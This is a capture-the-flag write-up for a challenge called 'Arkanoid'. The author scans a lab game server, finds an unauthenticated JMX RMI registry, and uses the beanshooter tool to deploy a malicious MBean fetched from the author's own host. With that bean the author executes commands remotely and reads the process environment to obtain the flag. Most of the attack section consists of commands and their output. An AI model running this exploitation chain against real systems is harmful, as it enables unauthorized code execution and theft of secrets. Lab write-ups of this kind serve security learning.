


# Arkanoid (5 points)

Ahoy, officer,

a new server with a video game is to be placed in the ship's relaxation center . Your task is to check whether the
server does not contain any vulnerabilities.

May you have fair winds and following seas!

The game server has domain name `arkanoid.cns-jv.tcc`.

## Hints

* Use VPN to get access the server.
* The Arkanoid appliance restarts every hour.

## Solution

Let's start with checking what listens on the server.

```console
$ nmap arkanoid.cns-jv.tcc -p-
PORT      STATE SERVICE
8000/tcp  open  http-alt
43547/tcp open  unknown
60001/tcp open  unknown
60002/tcp open  unknown
```

That's helpful, but perhaps it would be better to try to detect what types of services actually listen on those ports.

```console
$ nmap -sV arkanoid.cns-jv.tcc -p 8000,43547,60001,60002
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 22:20 CEST
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.0080s latency).

PORT      STATE SERVICE    VERSION
8000/tcp  open  http       JBoss Enterprise Application Platform
43547/tcp open  tcpwrapped
60001/tcp open  java-rmi   Java RMI
60002/tcp open  java-rmi   Java RMI
```

If we scan even deeper, we find JMX RMI registry running on port 60001.

```console
$ nmap -sV -A arkanoid.cns-jv.tcc -p 60001
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 22:36 CEST
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.0081s latency).

PORT      STATE SERVICE  VERSION
60001/tcp open  java-rmi Java RMI
| rmi-dumpregistry:
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @localhost:60002
|             extends
|_              java.rmi.server.RemoteObject
```

The search for some tools to attack JMX reveals [beanshooter]. After cloning and a maven build (described in the
"Installation" section of its README file) it's ready to use.

```console
$ java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar enum arkanoid.cns-jv.tcc 60001
```



The tool reports the possibility of unauthorized access, so let's try deploying some MBean (`tonka` to be precise).

_Note: `10.200.0.20` in the command below was the address of my PC. You need to use yours when running it, so that the
bean is downloaded from the correct place._

```console
$ java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar tonka deploy arkanoid.cns-jv.tcc 60001 --stager-url http://10.200.0.20:8000
```



The deployment has been successful which grants us access to the server. Now we can either run interactive shell and
explore (`beanshooter tonka shell`) or (if we already know what we're after) we can just run `beanshooter tonka exec` to
execute a particular command.

In our case, the FLAG can be found in the environment of the process with PID = `1`.

```console
$ java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar tonka exec arkanoid.cns-jv.tcc 60001 "cat /proc/1/environ"
[+] Invoking the executeCommand method with arguments: [cat, /proc/1/environ]
[+] The call was successful
[+]
[+] Server response:
HOSTNAME=47181c51972dHOME=/rootPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binJAVA_HOME=/opt/jdk1.8.0_144PWD=/optFLAG=FLAG{sEYj-80fd-EtkR-0fHv}
```

Finally, let's just clean up after ourselves, so that we don't spoil it for other players. :angel:

```console
$ java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar tonka undeploy arkanoid.cns-jv.tcc 60001
[+] Removing MBean with ObjectName MLetTonkaBean:name=TonkaBean,id=1 from the MBeanServer.
[+] MBean was successfully removed.
```

[beanshooter]: https://github.com/qtc-de/beanshooter
